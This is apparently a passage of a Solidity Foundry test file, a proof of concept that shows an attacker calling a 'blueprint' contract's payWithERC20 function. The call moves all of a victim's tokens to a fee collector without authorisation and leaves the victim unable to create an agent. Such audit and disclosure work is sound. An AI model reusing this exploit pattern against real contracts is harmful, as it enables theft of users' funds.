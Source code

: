 ```solidity
        
        // Verify second attack succeeded
        assertEq(finalVictimBalance, 0, "Victim should have no tokens left");
        assertEq(finalFeeCollectorBalance - initialFeeCollectorBalance, remainingStealAmount, 
                "Fee collector balance should increase by the stolen amount");
        
        console.log("Attack verified: Attacker was able to transfer all", initialVictimBalance, 
                   "tokens from the victim without authorization");
    }
    
    function test_SystemManipulationAttack() public {
        // In this scenario, attacker manipulates the system by triggering unintended payments
        
        // Setup a project to simulate legitimate use
        bytes32 projectId = bytes32(0x2723a34e38d0f0aa09ce626f00aa23c0464b52c75516cf3203cc4c9afeaf2980);
        
        // Attacker first creates a legitimate project as themselves
        vm.prank(attacker);
        blueprint.createProjectID();
        
        console.log("Attacker created a legitimate project");
        
        // Log initial balances
        uint256 initialVictimBalance = mockToken.balanceOf(victim);
        console.log("Initial victim balance:", initialVictimBalance);
        
        // Attacker triggers payment from victim to fee collector to disrupt victim's plans
        uint256 disruptAmount = initialVictimBalance; // Take all tokens
        
        console.log("Attacker forces victim to pay", disruptAmount, "tokens to fee collector");
        
        vm.prank(attacker);
        blueprint.payWithERC20(
            address(mockToken),
            disruptAmount,
            victim,
            feeCollector
        );
        
        // Log final balances
        uint256 finalVictimBalance = mockToken.balanceOf(victim);
        console.log("Final victim balance:", finalVictimBalance);
        
        // Verify attacker disrupted the victim
        assertEq(finalVictimBalance, 0, "Victim should have no tokens left");
        
        // Now victim tries to create their own project but fails due to no tokens
        vm.prank(victim);
        bytes32 victimProjectId = blueprint.createProjectID();
        
        // Victim tries to create agent but fails due to no tokens
        vm.expectRevert("ERC20: transfer amount exceeds balance");
        vm.prank(victim);
        blueprint.createAgentWithToken(
            victimProjectId,
            "victim project proposal",
            address(0),
            "app.crestal.network",
            address(mockToken)
        );
        
```